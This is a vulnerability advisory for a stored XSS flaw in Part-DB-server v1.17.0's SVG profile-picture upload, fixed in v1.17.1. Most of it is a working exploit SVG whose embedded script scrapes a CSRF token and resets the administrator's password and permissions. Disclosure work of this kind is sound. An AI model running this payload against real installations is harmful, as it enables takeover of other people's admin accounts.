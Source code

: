 Reported to the vendor on May 11, 2025.  
Fixed on May 18, 2025.

Reporter: Eduardo Bido - eduardobido@yahoo.com.br

Affected Software: https://github.com/Part-DB/Part-DB-server  
Vulnerable Version: v1.17.0  
Fixed Version: v1.17.1.  
https://github.com/Part-DB/Part-DB-server/releases/tag/v1.17.1

### Description
A Stored Cross-Site Scripting (XSS) vulnerability in the Change Profile Picture feature was found. The application allows users to upload .svg files as avatars. If a user uploads an SVG file containing embedded JavaScript, the script is executed when the image is accessed directly, which can lead to serious issues such as Account Takeover.

Here is a minimal example of a payload that triggers an alert
```svg
<svg xmlns="http://www.w3.org/2000/svg" width="400" height="400" viewBox="0 0 124 124" fill="none">
<rect width="124" height="124" rx="24" fill="#000000"/>
   <script type="text/javascript">  
  	alert(0x539);
   </script>
</svg>
```

This vulnerability becomes more critical when exploited against administrator accounts. If an admin views the malicious image, the embedded script executes in their context. Since administrators have permission to modify user accounts, a malicious payload could, for example, automatically submit a POST request to /en/user/2/edit, changing the admin's account data and leading to a full account takeover.

#### Steps to Reproduce:
1. Log in with a user account that has permission to edit their profile picture.
2. Upload an SVG file containing malicious JavaScript (a proof-of-concept txt file is attached, change to svg when uploading).
3. Have an administrator view the image (via direct link or the Users tab).
4. The script will execute in the admin's context, potentially altering their account data.

#### Notes:
1. The attack assumes the admin has the default ID 2, as typically seen after a fresh installation.
2. The avatar is accessible through a URL such as:   http://<host>:<port>/media/user/<id>/<svg-file>.svg

The exploit below can be used to change the administrator password.
```svg
<svg xmlns="http://www.w3.org/2000/svg" width="400" height="400" viewBox="0 0 124 124" fill="none">
<rect width="124" height="124" rx="24" fill="#000000"/>
   <script type="text/javascript">  
(async () => {
    const getTokenFromEditPage = async () => {
        const res = await fetch('http://192.168.1.136:8080/en/user/2/edit', {
            credentials: 'include' // include cookies (e.g. PHPSESSID)
        });
        const html = await res.text();
        const tokenMatch = html.match(/name="user_admin_form\[_token\]" value="([^"]+)"/);
        return tokenMatch ? tokenMatch[1] : null;
    };

    const sendPostRequest = async (csrfToken) => {
        const boundary = '----WebKitFormBoundaryp2d0pqksl37xZVTK';
        const body = `
--${boundary}
Content-Disposition: form-data; name="user_admin_form[name]"


admin
--${boundary}
Content-Disposition: form-data; name="user_admin_form[group]"


--${boundary}
Content-Disposition: form-data; name="user_admin_form[new_password][first]"

hijacked
--${boundary}
Content-Disposition: form-data; name="user_admin_form[new_password][second]"

hijacked
--${boundary}
Content-Disposition: form-data; name="user_admin_form[permissions][system][groups][edit_permissions]"

true
--${boundary}
Content-Disposition: form-data; name="user_admin_form[permissions][system][groups][show_history]"

true
--${boundary}
Content-Disposition: form-data; name="user_admin_form[permissions][system][groups][revert_element]"

true
--${boundary}
Content-Disposition: form-data; name="user_admin_form[permissions][system][groups][import]"

true
--${boundary}
Content-Disposition: form-data; name="user_admin_form[permissions][system][users][read]"

true
--${boundary}
Content-Disposition: form-data; name="user_admin_form[permissions][system][users][create]"

true
--${boundary}
Content-Disposition: form-data; name="user_admin_form[permissions][system][users][delete]"

true
--${boundary}
Content-Disposition: form-data; name="user_admin_form[permissions][system][users][edit_username]"

true
--${boundary}
Content-Disposition: form-data; name="user_admin_form[permissions][system][users][edit_infos]"

true
--${boundary}
Content-Disposition: form-data; name="user_admin_form[permissions][system][users][edit_permissions]"

true
--${boundary}
Content-Disposition: form-data; name="user_admin_form[permissions][system][users][impersonate]"

true
--${boundary}
Content-Disposition: form-data; name="user_admin_form[permissions][system][users][change_user_settings]"

true
--${boundary}
Content-Disposition: form-data; name="user_admin_form[permissions][system][users][show_history]"

true
--${boundary}
Content-Disposition: form-data; name="user_admin_form[permissions][system][users][revert_element]"

true
--${boundary}
Content-Disposition: form-data; name="user_admin_form[permissions][system][users][import]"

true
--${boundary}
Content-Disposition: form-data; name="user_admin_form[permissions][system][system][show_logs]"

true
--${boundary}
Content-Disposition: form-data; name="user_admin_form[permissions][system][system][delete_logs]"

indeterminate
--${boundary}
Content-Disposition: form-data; name="user_admin_form[permissions][blanko][tools][lastActivity]"

true
--${boundary}
Content-Disposition: form-data; name="user_admin_form[permissions][blanko][tools][label_scanner]"

true
--${boundary}
Content-Disposition: form-data; name="user_admin_form[permissions][blanko][tools][reel_calculator]"

true
--${boundary}
Content-Disposition: form-data; name="user_admin_form[permissions][blanko][tools][builtin_footprints_viewer]"

true
--${boundary}
Content-Disposition: form-data; name="user_admin_form[master_picture_attachment]"


--${boundary}
Content-Disposition: form-data; name="user_admin_form[log_comment]"


--${boundary}
Content-Disposition: form-data; name="user_admin_form[_token]"

${csrfToken}
--${boundary}
Content-Disposition: form-data; name="user_admin_form[save]"

--${boundary}--`;

        const res = await fetch('http://192.168.1.136:8080/en/user/2/edit', {
            method: 'POST',
            credentials: 'include',
            headers: {
                'Content-Type': `multipart/form-data; boundary=${boundary}`,
                'Origin': 'http://192.168.1.136:8080',
                'Referer': 'http://192.168.1.136:8080/en/user/2/edit',
                'x-turbo-request-id': 'bdd66b64-72b5-47bd-bc31-2b42ed890c06',
                'User-Agent': navigator.userAgent,
                'Accept': 'text/vnd.turbo-stream.html, text/html, application/xhtml+xml'
            },
            body: body.trim()
        });

        const text = await res.text();
        console.log("Response:", text);
    };

    const token = await getTokenFromEditPage();
    if (token) {
        await sendPostRequest(token);
    } else {
        console.error("Token not found.");
    }
})();
   </script>
</svg>
```
